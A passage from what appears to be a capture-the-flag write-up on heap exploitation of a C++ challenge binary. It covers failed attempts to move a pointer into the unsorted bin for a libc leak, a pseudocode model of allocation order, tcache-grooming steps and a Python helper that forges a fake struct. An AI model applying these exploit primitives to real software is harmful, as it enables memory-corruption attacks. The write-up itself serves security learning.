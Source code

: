 Here's my first idea: find some way to toss the pointer for `favorites` onto the unsorted bin. Once that's accomplished, `favorites->bk` should point to somewhere near `main_arena`, just as how putting `favorites` on the tcache caused `favorites->bk` to point to somewhere on the heap. Leaking libc immediately would reduce the number of fake `struct Food`s required to 1, which was demonstrated prior to be achievable.

I work on heap feng shui for a really long time, and although I managed to bring the `favorites` pointer onto the fastbins and the smallbins, it never gets chucked into the unsorted bin.

Shifting tracks, I move on to work on a better fake `struct Food` primitive. I run a lot of `ltrace` experiments, and I eventually come up with a pseudocode understanding of how/when `free()` and `malloc()` is called in `case 0`:

```python
idx = getidx()
is_new = not foods.count(idx)
name = input()
if name.size() > 0xf: # if `name` needs name.p
    sz = 31
    backing_store = malloc(sz)
    while sz <= name.size():
        free(backing_store)
        sz = sz*2-1
        malloc(sz)
tmp = malloc(40) # unique <Food> or <Bamboo>
if name.size() > 0xf: tmp.name_.p = backing_store
typ = rand64()%2 # 1 means bamboo
if typ: tmp.name_.p = alloc(name.size()+1) # store copy of string
if is_new: malloc(48) # allocate space for map
if not is_new and foods[idx].name_.capacity > 0xf: free(foods[idx].name_.p)
if typ: free(backing_store)
if not is_new: free(foods[idx])
foods[idx] = tmp
```

I do _even more experiments_, and I hit a good solution:

1. Make sure the tcache is empty; it's LIFO.
2. create a new `unique_ptr` at `foods[idx]`, where `foods[idx]` has never been allocated before. Ensure that `name.size() > 0x28` to keep `tcache[size=0x30]` empty.
3. favorite `foods[idx]`; repeat step 2. `tcache[size=0x30]` should _only_ contain `favorites` now.
4. create a new `unique_ptr` at `foods[nidx]`, where `foods[nidx]` has never been allocated before, and `name.size()` lies within [0x10, 0x18).
5. If `foods[nidx]` was a Bamboo<sup>4</sup>, `favorites` remains at the top of `tcache[size=0x30]`, and step 4 should be repeated. Otherwise, `favorites` was overwritten with the `name` from step 4.
   `favorites` has a `(1/2)**i` chance of being overwritten correctly, where `i` is the number of times step 4 happens. 

Programmatically:

```python
def fakeFood(payload: bytes) -> int:
    '''creates a fake Food struct containing `payload` at a random `idx`, stored as favorite. returns idx'''
    idx = randint(100,1<<30)
    alloc(idx, b'b'*60)
    fav(idx)
    alloc(idx, b'b'*60)
    for i in range(10): alloc(idx+i+1, payload[:0x17].ljust(0x17, b'\0'))
    return idx
```
